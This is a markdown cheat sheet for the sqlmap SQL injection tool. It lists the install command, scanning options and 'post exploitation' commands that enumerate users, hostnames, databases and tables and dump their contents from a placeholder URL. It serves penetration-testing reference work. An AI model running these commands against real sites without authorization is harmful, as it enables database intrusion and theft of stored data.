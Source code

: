 ## Scope 
Automatic SQL injection and database takeover tool.

SQLmap is an open-source penetration testing tool that automates the process of detecting and exploiting SQL injection flaws and taking over database servers. It comes with a powerful detection engine, many niche features for the ultimate penetration tester, and a broad range of switches including database fingerprinting, over-data fetching from the database, accessing the underlying file system, and executing commands on the operating system via out-of-band connections.

## Source
https://github.com/sqlmapproject/sqlmap

Environment:  Python

## Installation
*Pre-installed in Kali Linux

```
git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git sqlmap-dev
```

# Example Usages

### To get a list of basic options and switches
```
python sqlmap.py -h
```

### To get a list of all options and switches
```
python sqlmap.py -hh
```

### Vulnerability Finding

### ALL IN ONE
```
sqlmap -u url.com --threads 5 --level 5 --risk 3 --v 1 --batch
```
 
### Auto Select default features
```
sqlmap -u url.com/news.php?id=1 --batch
```

### Crawling the URL 
```
sqlmap -u url.com --crawl depth --batch
```

### Union attack

```
sqlmap -u url.com --crawl 5 --technique="U" --batch
```

### Thread >> using multiple connection for faster result, default 1, [range= 1 to 10]
```
sqlmap -u url.com --crawl 5 --threads [1 to 10] --batch
```
 
### Risk >> harm level of payloads used, default 1, [range=1 to 3]

```
sqlmap -u url.com --crawl 5 --risk 3
```

### Level -- test in the cookies; default 1, [range=1 to 5]

```
sqlmap -u url.com --crawl 5 --level 5
```

### Verbosity , default 0,[range=0 to 6]
```
sqlmap -u url.com --crawl 5 --batch --v 6
```

## Post Exploitation

### User Enumeration; after finding a vulnerable parameter

```
sqlmap -u url.com/news.php?id=1 --current-user --batch
```

```
sqlmap -u url.com/news.php?id=1 --hostname --batch
```

### Getting the current database name
```
sqlmap -u url.com/news.php?id=1 --current-db --batch
```


### Getting tables in a database
```
sqlmap -u url.com/news.php?id=1 -D database_name --tables
```

### Getting All columns in a table
```
sqlmap -u url.com/news.php?id=1 -D database_name -T table_name --dump
```

### Getting a specific Column Type in a specific table
```
sqlmap -u url.com/news.php?id=1 -D database_name -T table_name --columns
```

### Getting all tables in a database
```
sqlmap -u url.com/news.php?id=1 -D database_name --dump-all
```

### Getting all database details
```
sqlmap -u url.com/news.php?id=1 --dbs
```

### <mark style="background: #D2B3FFA6;">Saving Output</mark>

```
sqlmap -u url.com --crawl 5 --output-dir="/location/to/save.txt"
```

